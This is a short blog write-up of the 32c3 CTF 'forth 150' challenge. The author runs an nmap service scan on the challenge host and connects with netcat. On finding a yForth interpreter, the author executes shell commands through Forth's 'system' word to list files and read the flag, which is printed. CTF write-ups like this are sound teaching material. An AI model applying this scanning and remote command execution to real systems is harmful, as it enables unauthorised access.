 ## 32c3 CTF | Category: PWN | Challenge: Forth 150 |

Wish I had more time to play around with [32c3 CTF](https://32c3ctf.ccc.ac/) since the challenges seemed pretty awesome. Anyways, between school and other stuff I had to deal with, this was the only challenge I had the chance of solving.   It was pretty easy and straight forward.

## forth 150

**Challenge**:

> **<span style="color: #ff0000;">Connect to 136.243.194.49:1024 and get a shell.</span>**

  Let's take a closer look to the service running at port 1024.

<pre class="lang:default decode:true">sudo nmap -sV -p 1024 136.243.194.49
</pre>

  We get the result:

<pre class="lang:default decode:true">Starting Nmap 6.40 ( http://nmap.org ) at 2015-12-29 20:37 EET
Nmap scan report for static.49.194.243.136.clients.your-server.de (136.243.194.49)
Host is up (0.057s latency).
PORT     STATE SERVICE VERSION
1024/tcp open  kdm?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at http://www.insecure.org/cgi-bin/servicefp-submit.cgi :
SF-Port1024-TCP:V=6.40%I=7%D=12/29%Time=5682D2F6%P=x86_64-pc-linux-gnu%r(N
SF:ULL,D5,"yForth\?\x20v0\.2\x20\x20Copyright\x20\(C\)\x202012\x20\x20Luca
SF:\x20Padovani\r\nThis\x20program\x20comes\x20with\x20ABSOLUTELY\x20NO\x2
SF:0WARRANTY\.\r\nThis\x20is\x20free\x20software,\x20and\x20you\x20are\x20
SF:welcome\x20to\x20redistribute\x20it\r\nunder\x20certain\x20conditions;\
SF:x20see\x20LICENSE\x20for\x20details\.\r\n")%r(GenericLines,E5,"yForth\?
SF:\x20v0\.2\x20\x20Copyright\x20\(C\)\x202012\x20\x20Luca\x20Padovani\r\n
SF:This\x20program\x20comes\x20with\x20ABSOLUTELY\x20NO\x20WARRANTY\.\r\nT
SF:his\x20is\x20free\x20software,\x20and\x20you\x20are\x20welcome\x20to\x2
SF:0redistribute\x20it\r\nunder\x20certain\x20conditions;\x20see\x20LICENS
SF:E\x20for\x20details\.\r\nok\r\nok\r\nok\r\nok\r\n")%r(GetRequest,100,"y
SF:Forth\?\x20v0\.2\x20\x20Copyright\x20\(C\)\x202012\x20\x20Luca\x20Padov
SF:ani\r\nThis\x20program\x20comes\x20with\x20ABSOLUTELY\x20NO\x20WARRANTY
SF:\.\r\nThis\x20is\x20free\x20software,\x20and\x20you\x20are\x20welcome\x
SF:20to\x20redistribute\x20it\r\nunder\x20certain\x20conditions;\x20see\x2
SF:0LICENSE\x20for\x20details\.\r\n\[GET\]\x20error\(2\):\x20unknown\x20wo
SF:rd\.\r\nok\r\nok\r\nok\r\n")%r(HTTPOptions,104,"yForth\?\x20v0\.2\x20\x
SF:20Copyright\x20\(C\)\x202012\x20\x20Luca\x20Padovani\r\nThis\x20program
SF:\x20comes\x20with\x20ABSOLUTELY\x20NO\x20WARRANTY\.\r\nThis\x20is\x20fr
SF:ee\x20software,\x20and\x20you\x20are\x20welcome\x20to\x20redistribute\x
SF:20it\r\nunder\x20certain\x20conditions;\x20see\x20LICENSE\x20for\x20det
SF:ails\.\r\n\[OPTIONS\]\x20error\(2\):\x20unknown\x20word\.\r\nok\r\nok\r
SF:\nok\r\n")%r(RTSPRequest,104,"yForth\?\x20v0\.2\x20\x20Copyright\x20\(C
SF:\)\x202012\x20\x20Luca\x20Padovani\r\nThis\x20program\x20comes\x20with\
SF:x20ABSOLUTELY\x20NO\x20WARRANTY\.\r\nThis\x20is\x20free\x20software,\x2
SF:0and\x20you\x20are\x20welcome\x20to\x20redistribute\x20it\r\nunder\x20c
SF:ertain\x20conditions;\x20see\x20LICENSE\x20for\x20details\.\r\n\[OPTION
SF:S\]\x20error\(2\):\x20unknown\x20word\.\r\nok\r\nok\r\nok\r\n")%r(DNSVe
SF:rsionBindReq,D5,"yForth\?\x20v0\.2\x20\x20Copyright\x20\(C\)\x202012\x2
SF:0\x20Luca\x20Padovani\r\nThis\x20program\x20comes\x20with\x20ABSOLUTELY
SF:\x20NO\x20WARRANTY\.\r\nThis\x20is\x20free\x20software,\x20and\x20you\x
SF:20are\x20welcome\x20to\x20redistribute\x20it\r\nunder\x20certain\x20con
SF:ditions;\x20see\x20LICENSE\x20for\x20details\.\r\n");

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 163.35 seconds
</pre>

  Interesting, so it seems like there's some kind of service called **[yForth](http://dev.man-online.org/man1/yforth/)** is running, which I've never heard of before. A quick Google search reveals that this is actually a small interpreter for a programming language called [Forth](https://en.wikipedia.org/wiki/Forth_(programming_language)). Well, it's pretty obvious after this point, there should be a way to run shell commands on Forth. Let's try it out.   Let's connect to our target.

<pre class="lang:default decode:true ">nc 136.243.194.49:1024</pre>

  Run a -ls command in **Forth language** to see where we are.

<pre class="lang:default decode:true">s" ls" system</pre>

  We see a file called "flag.txt". We run a cat command

<pre class="lang:default decode:true ">s" cat flag.txt" system</pre>

Et Voila! **Flag: _32C3_a8cfc6174adcb39b8d6dc361e888f17b_** ![](http://i1.wp.com/cagin.me/wp-content/uploads/2015/12/Screenshot-from-2015-12-28-143539-e1451415164488.png)
